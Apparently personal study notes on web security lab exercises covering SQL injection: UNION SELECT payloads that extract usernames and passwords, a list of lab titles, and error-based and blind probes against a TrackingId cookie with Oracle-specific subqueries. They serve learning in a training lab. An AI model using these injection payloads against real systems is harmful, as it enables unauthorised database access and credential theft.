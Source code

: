 ![[Pasted image 20241118051810.png]]



```SQL
'+UNION+SELECT+USERNAME_CUKOIP,+PASSWORD_VEHHOY+FROM+USERS_GNRBIN--
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_GNRBIN--
USERNAME_CUKOIP
```

## 🟦 Lab 7: SQL injection UNION attack, determining the number of columns returned by the query?
## 🟦 Lab 8: SQL injection UNION attack, finding a column containing text ?
## 🟦 Lab 9: SQL injection UNION attack, retrieving data from other tables?
## 🟦 Lab 10: SQL injection UNION attack, retrieving multiple values in a single column ?
## 🟦 Lab 11: Blind SQL injection with conditional responses?
## 🟦 Lab 12: Blind SQL injection with conditional errors
### Unclosed quotation mark
Testing for the posibility of error-based SQL injection
`Unclosed quotation mark`
```http
TrackingId=xyz'
-- error
TrackingId=xyz''
--no error
```

*How to test that server is interpreting the injection as a SQL query?*
- construct subquery by using valid SQL syntax

```sql
TrackingId=xyz'||(SELECT '')||'
-- invalid http 500 
TrackingId=xyz'||(SELECT '' FROM dual)||'
-- valid http 200, this is Oracle db
```

### Test 1: is this error caused by SQL query?
Double-verify for the Oracle db using
- invalid query
- valid sql syntax
- if you receive an error, it means that your query is being processed as a SQL query by the back-end
```sql
'||(SELECT '' FROM not-a-real-table)||'
```
